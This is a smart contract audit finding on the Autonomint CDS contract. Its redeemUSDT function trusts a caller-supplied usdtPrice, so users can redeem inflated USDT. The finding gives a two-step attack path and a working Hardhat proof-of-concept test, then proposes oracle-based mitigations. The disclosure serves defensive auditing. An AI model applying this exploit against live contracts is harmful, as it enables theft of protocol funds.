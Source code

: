 Funny Fiery Tadpole

High

# User can redeem any USDT amount they want by manipulating usdtPrice

### Summary

In [CDS.sol:506](https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/contracts/Core_logic/CDS.sol#L506) the `redeemUSDT` function allows users to specify the `usdtPrice` parameter, which is used to calculate the amount of USDT they can redeem. Since there are no validations to ensure the accuracy of this price (e.g., using a trusted oracle), malicious users can exploit this by providing an artificially low `usdtPrice`. This results in the protocol sending an inflated amount of USDT compared to the value of USDA being burned. Consequently, attackers can drain the protocol's USDT reserves.

### Root Cause

In [CDS.sol:506](https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/contracts/Core_logic/CDS.sol#L506) user can call the `redeemUSDT` function with any `usdtPrice` parameter he wants.
```solidity
function redeemUSDT(
        uint128 usdaAmount,
        uint64 usdaPrice,
        uint64 usdtPrice //audit User can enter any usdtPrice
) external payable nonReentrant whenNotPaused(IMultiSign.Functions(6)) {
        burnedUSDaInRedeem = CDSLib.redeemUSDT(
            Interfaces(
                treasury,
                globalVariables,
                usda,
                usdt,
                borrowing,
                CDSInterface(address(this))
            ),
            burnedUSDaInRedeem,
            usdaAmount,
            usdaPrice,
            usdtPrice
        );
        ...
}
```
[CDSLib.redeemUSDT](https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/contracts/lib/CDSLib.sol#L382)
```solidity
function redeemUSDT(
        CDSInterface.Interfaces memory interfaces,
        uint256 burnedUSDaInRedeem,
        uint128 usdaAmount,
        uint64 usdaPrice,
        uint64 usdtPrice
) external returns (uint256) {
        ...
        //audit usdtPrice without validation
        uint128 usdtAmount = ((usdaPrice * usdaAmount) / usdtPrice);

        interfaces.treasury.approveTokens(IBorrowing.AssetName.TUSDT, address(interfaces.cds), usdtAmount);
        // Transfer usdt to user
        bool success = interfaces.usdt.transferFrom(
            address(interfaces.treasury),
            msg.sender,
            usdtAmount
        );
        if (!success) revert CDSInterface.CDS_TransferFailed(IBorrowing.AssetName.TUSDT);
        ...
}
```

### Internal pre-conditions

_No response_

### External pre-conditions

User needs some USDa amount

### Attack Path

1. Approve USDa amount to CDS contract;
2. Call `redeemUSDT` with `usdtPrice` much smaller than `usdaPrice`.

### Impact

User will get a lot more USDT than he should.

### PoC

Add this test to `BorrowingTest.ts`.
```Typescript
it("Should redeem USDT a lot more than USDA",async function(){
    const {CDSContractA,TokenA,usdtA,globalVariablesA} = await loadFixture(deployer);
    await usdtA.mint(user1.getAddress(),20000000000);
    await usdtA.connect(user1).approve(CDSContractA.getAddress(),20000000000);

    const options = Options.newOptions().addExecutorLzReceiveOption(400000, 0).toHex().toString()
    let nativeFee = 0
    ;[nativeFee] = await globalVariablesA.quote(1,0, options, false)

    await CDSContractA.connect(user1).deposit(20000000000,0,true,10000000000,100000,{ value: nativeFee.toString()});

    await TokenA.mint(user2.getAddress(),800000000);
    await TokenA.connect(user2).approve(CDSContractA.getAddress(),800000000);

    await CDSContractA.connect(user2).redeemUSDT(800000000,1500,100,{ value: nativeFee.toString()});

    expect(await TokenA.totalSupply()).to.be.equal(20000000000);
    expect(await usdtA.balanceOf(user2.getAddress())).to.be.equal(12000000000);
})
```

### Mitigation

1. Integrate a reliable price oracle (e.g., Chainlink) to fetch the real-time prices of USDA and USDT.
2. You can link usdaPrice and usdtPrice: 
```solidity
require(usdaPrice == usdtPrice, "Prices not equal")
```